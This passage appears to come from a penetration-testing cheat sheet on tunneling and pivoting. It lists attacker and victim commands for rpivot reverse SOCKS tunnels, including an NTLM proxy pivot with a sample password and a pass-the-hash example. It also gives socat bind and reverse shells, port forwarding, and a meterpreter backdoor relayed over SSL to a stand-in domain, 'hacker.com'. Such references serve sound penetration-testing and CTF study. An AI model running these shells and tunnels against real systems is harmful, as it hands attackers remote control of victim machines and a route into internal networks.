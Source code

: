 
Read more:

    ​https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html (Blog by Oxdf)

    ​https://github.com/jpillora/chisel​

    ​https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s (HTB Reddish by ippsec)

    ​https://0xdf.gitlab.io/2019/01/26/htb-reddish.html (HTB Reddish by 0xdf)

Rpivot

​https://github.com/klsecservices/rpivot​

Reverse tunnel. The tunnel is started from the victim.
A socks4 proxy is created on 127.0.0.1:1080

attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080

victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999

Pivot through NTLM proxy

victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd

victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45

Socat

​https://github.com/andrew-d/static-binaries​
Bind shell

victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337

Reverse shell

attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane

Port2Port

socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>,<rport> &

Port2Port through socks

socat TCP-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678

Meterpreter through SSL Socat

#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333

victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
